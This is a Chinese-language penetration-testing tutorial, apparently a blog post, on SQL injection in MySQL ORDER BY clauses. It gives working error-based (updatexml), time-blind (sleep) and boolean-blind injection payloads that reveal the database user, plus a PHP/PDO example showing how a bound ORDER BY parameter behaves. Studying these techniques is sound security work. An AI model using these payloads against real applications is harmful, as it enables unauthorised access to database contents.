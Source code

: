 **语法：**顺序：SELECT  *from 表名 ORDER BY 排序的字段名 倒序：SELECT*  from 表名 ORDER BY 排序的字段名 DESC

```mysql
[ORDER BY {col_name | expr | position}  
[ASC | DESC], ...]  
```

**注**：ORDER BY 语句用于根据指定的列对结果集进行排序。ORDER BY 语句默认按照升序对记录进行排序。

```mysql
select * from fraction order by fraction DESC;  # 根据字段fraction进行降序排列
select * from fraction order by fraction ASC;   # 根据字段fraction进行升序排列
```

`order by`位置的注入点，其实跟平常的注入点类似，目前感觉区别不大，例如：

```mysql
select * from fraction order by 1 and 1=updatexml(0,concat('~',user(),'~'),1)# asc; -- 报错注入
select * from fraction order by updatexml(0,concat('~',user(),'~'),1)# asc;         -- 报错注入
select * from fraction order by if(1,sleep(3),sleep(0))# asc;   -- 延时盲注，但这个延时了33秒，离谱
select * from fraction order by if((user()='root@localhost'),fraction,id);# asc;    -- 布尔盲注
```

#### order by后传入字段名

ok，回归正题，有时ORDER BY后的表名动态传入的SQL语句；渗透测试中允许用户传入按某个字段进行排序的行为，这很有可能是直接拼接的。

```php
<?php
$col = $_GET['col']; // 接收username
# 建立数据库连接
$dbs = "mysql:host=127.0.0.1;dbname=sort";
$dbname = "root";
$passwd = "root";
// 创建连接,选择数据库,检测连接
try{
$conn = new PDO($dbs, $dbname, $passwd);
echo "Sucussful<br/>";
}
catch (PDOException $e){
die ("Error!: " . $e->getMessage() . "<br/>");
}
# 设置本地预编译，绑定参数
$conn -> setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
$stmt = $conn->prepare("select * from fraction order by :col");
$stmt->bindParam(":col",$col);
$stmt->execute();
$result = $stmt->fetchAll(PDO::FETCH_ASSOC);
print_r($result);

$conn=null; # 关闭链接
?>
```

传入`col=fraction`，查看数据库执行日志，能够发现已经成功绑定参数。

```mysql
12 Connect  root@localhost on sort using TCP/IP
12 Prepare  select * from fraction order by ?
12 Execute  select * from fraction order by 'fraction'
12 Close stmt   
12 Quit
```

